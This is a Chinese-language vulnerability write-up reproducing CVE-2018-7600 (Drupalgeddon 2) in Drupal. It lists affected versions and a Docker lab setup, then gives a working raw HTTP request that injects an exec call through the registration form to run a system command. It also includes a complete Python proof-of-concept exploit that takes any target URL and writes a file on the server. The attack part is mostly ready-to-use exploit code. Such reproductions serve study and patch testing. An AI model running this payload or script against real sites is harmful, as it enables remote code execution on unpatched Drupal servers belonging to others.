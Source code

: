 （CVE-2018-7600）Drupal Drupalgeddon 2 远程代码执行漏洞
=======================================================

一、漏洞简介
------------

Drupal是Drupal社区所维护的一套使用PHP语言开发的免费，开源的内容管理系统。版本受到影响：Drupal7.58之前的版本，8.3.9之前的8.x版本，8.4.6之前的8.4.x版本，8.5.1之前的8.5.x版本。

二、漏洞影响
------------

Drupal7.58之前的版本，8.3.9之前的8.x版本，8.4.6之前的8.4.x版本，8.5.1之前的8.5.x版本。

三、复现过程
------------

### 漏洞环境

执行如下命令启动drupal 8.5.0的环境：

    docker-compose up -d

环境启动后，访问`http://your-ip:8080/`将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

### 漏洞复现

参考[ianxtianxt/CVE-2018-7600](https://github.com/ianxtianxt/CVE-2018-7600)，我们向安装完成的drupal发送如下数据包：

    POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
    Host: your-ip:8080
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 103

    form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id

成功执行代码，这个代码最终执行了id命令：

![](resource/(CVE-2018-7600)DrupalDrupalgeddon2远程代码执行漏洞/media/rId27.png)

### **exploit.py**

    #!/usr/bin/env python3
    import sys
    import requests

    print ('################################################################')
    print ('# Proof-Of-Concept for CVE-2018-7600')
    print ('# by Vitalii Rudnykh')
    print ('# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders')
    print ('# https://github.com/a2u/CVE-2018-7600')
    print ('################################################################')
    print ('Provided only for educational or information purposes\n')

    target = input('Enter target url (example: https://domain.ltd/): ')

    # Add proxy support (eg. BURP to analyze HTTP(s) traffic)
    # set verify = False if your proxy certificate is self signed
    # remember to set proxies both for http and https
    # 
    # example:
    # proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
    # verify = False
    proxies = {}
    verify = True

    url = target + 'user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax' 
    payload = {'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec', 'mail[#type]': 'markup', 'mail[#markup]': 'echo ";-)" | tee hello.txt'}

    r = requests.post(url, proxies=proxies, data=payload, verify=verify)
    check = requests.get(target + 'hello.txt', proxies=proxies, verify=verify)
    if check.status_code != 200:
      sys.exit("Not exploitable")
    print ('\nCheck: '+target+'hello.txt')

参考链接
--------

> https://vulhub.org/\#/environments/drupal/CVE-2018-7600/
